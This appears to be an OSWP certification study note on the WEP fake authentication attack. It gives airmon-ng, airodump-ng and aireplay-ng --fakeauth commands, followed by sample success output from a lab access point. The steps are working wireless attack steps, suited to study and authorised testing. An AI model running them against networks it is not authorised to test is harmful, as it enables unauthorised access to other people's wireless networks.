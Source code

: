# OSWP - Fake Authentication Attack (WEP)

The fake authentication attack allows you to perform the two types of WEP authentication (Open System and Shared Key) plus associate with the access point (AP). This is only useful when you need an associated MAC address in various aireplay-ng attacks and there is currently no associated client. It should be noted that the fake authentication attack does NOT generate any ARP packets. Fake authentication cannot be used to authenticate/associate with WPA/WPA2 Access Points.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed, so `screen` is your friend
* No clients should be associated with AP or at least clients are idle

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE
```

```bash
# Success
01:56:20  Waiting for beacon frame (BSSID: AA:BB:CC:DD:EE:FF) on channel 3
01:56:20  Sending Authentication Request (Open System) [ACK]
01:56:20  Authentication successful
01:56:20  Sending Association Request [ACK]
01:56:20  Association successful :-) (AID: 1)

# Also a new client is added and AUTH set to OPN
[CH  3 ][ Elapsed: 5 mins ][ 2023-06-13 01:57 ][ paused output
BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
AA:BB:CC:DD:EE:FF  -53 100     2987      303    0   3   54e. WEP  WEP    OPN  wifu

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
AA:BB:CC:DD:EE:FF  AA:AA:AA:AA:AA -71   54e-54e     0      457
```
## Wireshark

TBD

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Fake Authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication)
* [REdBlueTeam](https://youtu.be/_9qJ1Urpn0Y?t=1860)